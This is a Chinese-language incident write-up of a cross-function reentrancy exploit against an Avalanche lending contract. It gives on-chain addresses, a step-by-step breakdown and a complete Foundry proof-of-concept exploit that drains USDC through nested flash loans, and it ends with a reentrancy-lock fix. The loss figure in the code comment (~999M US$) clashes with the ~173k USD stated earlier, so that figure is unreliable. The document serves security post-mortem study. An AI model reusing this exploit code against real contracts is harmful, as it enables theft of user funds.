


#### 事件资讯

- *时间: 2022-12-23*
- *损失: ~173k usd*
- *原因：跨函数重入，合约中`flashLoan()`函数和`deposit()`函数没有重入锁，`hacker` 将`flasLoan()`借贷的 assert 在回调函数中存入合约，从而实现套利。*

#### 链上资讯

- *Chain:  Avalanche*
- *Hacker Address: 0x7373dca267bdc623dfba228696c9d4e8234469f6*
- *Attack Contract: 0x792e8f3727cad6e00c58d478798f0907c4cec340*
- *Attack Tx：0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d*
- **Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96*
- *pair(WAVAX ,USDC)：0xf4003F4efBE8691B60249E6afbD307aBE7758adb[Joe LP Token (JLP)]*

#### 资金流向



#### 攻击流程



#### 攻击解析

> *tips: 本次攻击的核心便是使用了`lending`合约中借来的`USD`进行存款【跨函数的重入攻击】*

1. hacker 先从`pair(WAVAX ,USDC)`中借出大量 `USD1`；
2. hacker 在`pair(WAVAX ,USDC)`执行闪电贷，在攻击合约的回调函数中去调用`Lending`合约的`flashLoan()`函数，借出大量的`USD2`；
3. 此时进入二层闪电贷，在该层闪电贷中调用`lending`合约的`deposit()`函数，将`USD2`存入并获取`share`凭证，随后使用`USD1`对二层闪电贷进行还款，自此二层闪电贷结束；
4. 回到一层闪电贷中，执行`lending`合约中的`redeem()`函数，将`share`换作`USD3`，使用`USD3`对一层闪电贷进还款，自此一层闪电贷结束；
5. hacker最终获利 `~= USD3 - USD1`。


#### 攻击复现

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {IERC20, Uni_Pair_V2, CheatCodes} from "./interface.sol";

// @KeyInfo - Total Lost : ~999M US$
// Attacker : 0x7373dca267bdc623dfba228696c9d4e8234469f6
// Attack Contract : 0x792e8f3727cad6e00c58d478798f0907c4cec340
// Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96

// Attack Tx : https://snowtrace.io/tx/0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d

// @Info
// Vulnerable Contract Code : https://snowscan.xyz/address/0xff152e21c5a511c478ed23d1b89bb9391be6de96#code

// @Analysis
// Twitter PeckShield : https://twitter.com/PeckShieldAlert/status/1606276020276891650


interface LSWUSDC {
    function maxFlashLoan(
        address token
    ) external view returns (uint256);
    function flashFee(address token, uint256 amount) external view returns (uint256);
    function flashLoan(address receiver, address token, uint256 amount, bytes calldata data) external;
    function deposit(uint256 amount, address to) external returns (uint256);
    function redeem(uint256 shares, address receiver, address owner) external;
}

contract Defrost_Attack is Test {
    IERC20 USDC = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
    LSWUSDC LSW = LSWUSDC(0xfF152e21C5A511c478ED23D1b89Bb9391bE6de96);
    Uni_Pair_V2 Pair = Uni_Pair_V2(0xf4003F4efBE8691B60249E6afbD307aBE7758adb);
    uint256 flashLoanAmount;
    uint256 flashLoanFee;
    uint256 depositAmount;

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("Avalanche", 24_003_940);
    }

    function testExploit() public {
        flashLoanAmount = LSW.maxFlashLoan(address(USDC));
        flashLoanFee = LSW.flashFee(address(USDC), flashLoanAmount);
        Pair.swap(0, flashLoanAmount + flashLoanFee, address(this), new bytes(1));

        emit log_named_decimal_uint("[End] Attacker USDC balance after exploit", USDC.balanceOf(address(this)), 6);
    }

    function joeCall(address _sender, uint256 _amount0, uint256 _amount1, bytes calldata _data) external {
        LSW.flashLoan(address(this), address(USDC), flashLoanAmount, new bytes(1));
        LSW.redeem(depositAmount, address(this), address(this));
        USDC.transfer(address(Pair), (flashLoanAmount + flashLoanFee) * 1000 / 997 + 1000);
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        USDC.approve(address(LSW), type(uint256).max);
        depositAmount = LSW.deposit(flashLoanAmount, address(this));
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```


#### 总结与建议

- 建议给涉及资金存取的函数加入重入锁，比如`flasLoan()`和`deposit()`函数。